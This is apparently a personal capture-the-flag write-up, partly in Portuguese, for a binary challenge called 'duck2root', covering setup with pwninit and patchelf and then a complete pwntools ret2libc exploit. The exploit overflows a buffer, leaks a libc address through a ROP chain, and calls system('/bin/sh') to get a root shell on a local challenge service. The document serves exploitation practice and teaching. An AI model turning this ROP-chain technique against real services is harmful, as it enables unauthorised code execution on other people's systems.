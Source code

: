 Depois de baixar o binário e a lib:
1. `pwninit --bin duck2root --libc libc.so.6`
![[Pasted image 20240904190718.png]]
2. `patchelf --set-interpreter ./ld-2.35.so ./duck2root` 
3. `checksec ./duck2root`
![[checksec.png]]

EXPLOIT QUE FINALMENTE FUNCIONA (depois de muitas iterações, perguntas e dúvidas)
```python
#!/usr/bin/env python3

from pwn import * 

exe = process('./duck2root_patched')
p = remote("localhost", 5001)

pop_rdi = 0x40126d
printf_at_got = 0x404018
puts_at_plt = 0x401030
ret_to_vuln = 0x401272

payload = b"A"*72
payload += p64(pop_rdi) # pop rdi; ret
payload += p64(printf_at_got) # printf got
payload += p64(puts_at_plt) # puts plt
payload += p64(ret_to_vuln) # return to ask 

p.sendlineafter("Patonymous?>\n",payload) # send payload

leak = u64(p.recvline().strip().ljust(8, b"\x00")) # leaked address

log.info(f"Leaked printf address: {hex(leak)}")

printf_offset = 0x606f0

base_address = leak - printf_offset # calculate base address libc
log.info(f"Leaked libc base address: {hex(base_address)}")
input()
libc_binsh = 0x1d8678 # offset /bin/sh
libc_system = 0x0000000000050d70 # offset system
log.info(f"Leaked libc system address: {hex(base_address + libc_system)}")

# second ROPchain (payload), now that its waiting to receive input

payload2 = b"A" * 72
payload2 += p64(pop_rdi)
payload2 += p64(base_address + libc_binsh) # libc -> /bin/sh > strings -a -t x ./libc.so.6 | grep "/bin/sh"
payload2 += p64(0x000000000040101a) # ret > ROPgadget --bin binary | grep ret
payload2 += p64(base_address + libc_system) # libc -> system
p.sendlineafter("Patonymous?>\n", payload2) # >;) - delivery payload

p.interactive()
```

![[Pasted image 20240905163804.png]]QUACK{R3t2l1bc_1s_t00_3a5y_t0_3xpl01t}

And ofc I had to leave a message as root to :)
![[Pasted image 20240905165621.png]]